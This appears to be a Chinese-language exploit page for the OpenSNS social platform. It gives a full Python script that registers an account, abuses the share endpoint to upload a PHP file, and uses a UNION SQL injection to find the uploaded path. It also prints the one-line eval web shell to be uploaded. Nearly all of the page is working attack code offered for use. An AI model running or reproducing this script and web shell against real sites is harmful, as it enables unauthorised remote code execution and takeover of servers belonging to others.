


# OpenSNS前台注册getshell

## 漏洞脚本

``` python
import requests
import random
import re

s = requests.Session()
url = 'http://127.0.0.1/'

def getRandomName():
    name = ''
    for i in range(4):
        name += chr(random.randint(97, 122))
    return name


def register():
    global s
    registerUrl = url + 'index.php?s=/ucenter/member/register.html'
    nickname = getRandomName()

    headers = {
        'Referer': registerUrl,
        'Content-Type': 'application/x-www-form-urlencoded',
    }
    data = {
        'role': '1',
        'username': nickname + '@test.com',
        'nickname': nickname,
        'password': '123456',
        'reg_type': 'email',
    }
    r = s.post(registerUrl, data=data, headers=headers)

    return nickname


def login(username):
    global s
    loginUrl = url + 'index.php?s=/ucenter/member/login.html'

    headers = {
        'Referer': loginUrl,
        'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
        # 'X-Requested-With': 'XMLHttpRequest',
    }
    data = {
        'username': username,
        'password': '123456',
        'remember': '0',
        'from': loginUrl,
    }
    r = s.post(loginUrl, data=data, headers=headers)
    # print(r.text)


def upload():
    global s
    uploadUrl = url + 'index.php?s=/weibo/share/doSendShare.html'
    file = {'file_img': open('l.php', 'r')}
    data = {
        'content': '123',
        'query': 'app=Home&model=File&method=upload&id=',
    }
    r = s.post(uploadUrl, data=data, files=file)
    # print(r.text)


def getShell():
    global s
    exp = url + 'index.php?s=/ucenter/index/information/uid/23333 union (select 1,2,concat(savepath,savename),4 from ocenter_file where savename like 0x252e706870 order by id desc limit 0,1)#.html'
    r = s.get(exp)
    # print(r.text)
    shellUrl = url + 'Uploads/' + re.findall(r'>(.*?)</attr>', r.text)[0]

    r = s.get(shellUrl)
    return shellUrl if r.status_code == 200 else False


def main():
    username = register()
    login(username)
    upload()
    shell = getShell()
    if shell:
        print('[*] Getshell! Url is ' + shell)
    else:
        print('[-] Something Wrong...')


if __name__ == '__main__':
    main() 

```

在python同级目录下放置一个l.php

```php
<?php eval($_POST["shadow"]); ?>

```







[漏洞引用](https://www.0dayhack.com/post-659.html)